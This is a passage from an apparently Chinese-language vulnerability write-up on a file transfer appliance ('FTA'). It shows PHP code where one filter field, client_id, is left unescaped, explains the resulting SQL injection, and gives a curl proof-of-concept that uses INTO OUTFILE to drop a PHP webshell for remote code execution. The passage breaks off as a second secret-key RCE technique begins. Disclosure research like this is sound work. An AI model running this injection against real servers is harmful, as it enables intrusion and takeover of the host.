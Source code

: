     ( $db_result =  || fatal_error( 'exec:mysql_query(' . $sql . ') respond:' . mysql_error(  ), __FILE__, 221 ) );
{% endhighlight %}



{% highlight php startinline %}
function construct_where_clause($filter, $exclude_del = 1) {
    $where_clause = array(  );
    $where_clause[] = 'c_server_id  != \'999\'';

    if ($exclude_del) {
        $where_clause[] = '!(t_mail_server.c_flag & ' . CLIENT_DELETED . ')';
    }
    if ($filter['client_id'] != '') {
        $where_clause[] = 'c_server_id = \'' . $filter['client_id'] . '\'';
    }
    if ($filter['manager'] != '') {
        $filter['manager'] = mysql_real_escape_string( $filter['manager'] );
        $where_clause[] = 'c_manager = \'' . $filter['manager'] . '\'';
    }
    if ($filter['client_name'] != '') {
        $filter['client_name'] = mysql_real_escape_string( $filter['client_name'] );
        $where_clause[] = 't_mail_server.c_name LIKE \'%' . $filter['client_name'] . '%\'';
    }
    if (( $filter['user'] != '' && $filter['user'] != '%%' )) {
        $filter['user'] = mysql_real_escape_string( $filter['user'] );
        $where_clause[] = 't_mail_server.c_user_id LIKE \'' . $filter['user'] . '\'';
    }
{% endhighlight %}

`client_properties( ... )` 中會將所傳進的參數進行 SQL 語句的拼裝，而 `construct_where_clause( ... )` 為最關鍵的一個函數。
在 `construct_where_clause( ... )` 中可以看到參數皆使用 `mysql_real_escape_string` 來防禦但唯獨缺少 `$client_id`，從原始碼的 Coding Style 觀察猜測應該是開發時的疏忽，因此根據程式流程送出對應的參數即可觸發 SQL Injection。

此外，在 FTA 中資料庫使用者為 root 具有 FILE_PRIV 權限，因此可使用 `INTO OUTFILE` 撰寫自己 PHP 代碼至可寫目錄達成遠端代碼執行！

**PoC**
{% highlight bash %}
$ curl https://<fta>/courier/1000@/security_key2.api -d "aid=1000&user_id=1&password=1&client_id=' OR 1=1 LIMIT 1 INTO OUTFILE '/home/seos/courier/themes/templates/.cc.php' LINES TERMINATED BY 0x3c3f...#"
{% endhighlight %}

生成的 PHP 檔案位置在

> http://\<fta\>/courier/themes/templates/.cc.php

<br>

#### Known Secret-Key leads to Remote Code Execution

在前個弱點中，要達成遠端代碼執行還有一個條件是要存在可寫目錄，但現實中有機率找不到可寫的目錄放置 Webshell，因此無法從 SQL Injection 達成代碼執行，不過這時有另外一條路可以幫助我們達成遠端代碼執行。

這個弱點的前提條件是 **已知資料庫中所存的加密 KEY**
